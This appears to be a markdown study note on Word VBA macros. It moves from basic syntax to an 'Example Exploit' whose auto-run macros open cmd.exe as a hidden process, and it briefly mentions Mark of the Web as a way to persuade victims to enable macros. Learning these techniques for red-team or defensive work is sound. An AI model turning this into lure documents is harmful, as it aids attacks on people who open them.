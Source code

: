 # Word Macros
By default new versions of word will block macros, however they are still enabled in versions < 2019.

## Declaring Variables
```
Dim Name As String
Dim Age As Long
Dim Pointer As LongPtr
```

## Conditionals

### If / Else statements
```
Sub MyMacro()

Dim Age As Long

Age = 12

If Age < 18 Then
    MsgBox("True")
Else
    MsgBox("False")
End If
```

### For Loops
```
Sub MyMacro()

For counter = 1 To 3
    MsgBox("Alert")
Next counter

End Sub
```

## Example Exploit
This macro must be saved as a `.doc` or `.docm`. `.docx`. The exlpoit will open up the command prompt as a hidden window. This process will be detected as a sub process of word.exe
```
Sub Document_Open()
    TestX
End Sub

Sub AutoOpen()
    TestX
End Sub

Sub TestX()
    Dim str As String
    str = "cmd.exe"
    Shell str, vbHide
End Sub
```

This will open cmd as a hidden process:
```
Sub TestX2()
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub

```

## Mark of the Web
This is a flag set inside a document to indicate it has been downloaded form the internet. It is the easier way to convice someone to open macros.

